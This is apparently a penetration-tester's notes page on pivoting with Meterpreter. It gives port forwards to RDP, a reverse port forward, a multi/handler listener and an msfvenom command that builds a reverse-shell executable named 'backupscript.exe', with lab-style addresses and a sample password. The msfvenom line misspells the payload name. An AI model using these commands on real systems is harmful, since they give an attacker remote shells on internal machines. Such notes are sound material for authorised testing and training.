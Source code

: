 -- -
### Port forward local port to remote rdp port
Bind local port 3300 to remote port 3389
```bash
# setup from meterpreter shell
portfwd -l 3300 -p 3389 -r 172.16.5.19

# use port forward to rdp into box
xfreerdp /v:localhost:3300 /u:victor /p:pass@123

# see port forward
netstat -antp
```
### Reverse Port Forward
-- -
Used to get a reverse shell. The reverse shell is sent from an internal server, to a port on our pivot host, who will forward the shell to our attack box. In this case, the internal server sends the reverse shell to our pivot host on port `1234`, then the pivot host will forward it from port `1234` to port `8081` on our attack box which should have a listener waiting to catch the reverse shell.
##### Setup
```bash
# from meterpreter shell
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

# background session 
bg

# should be in: multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lport 8081
set lhost 0.0.0.0
run
```
##### Payload
```bash
# lhost here is the pivot host
msfvenom -p windows/x64/maeterpreter/reverse_tcp LHOST=172.16.5.129 lport=1234 -f exe -o backupscript.exe
```
Then, [[Dark Arts/File Transfer/~Home|File Transfer]] to pivot host, then to the target internal host. Run it and you should get a reverse shell on the attackbox through the pivot host. 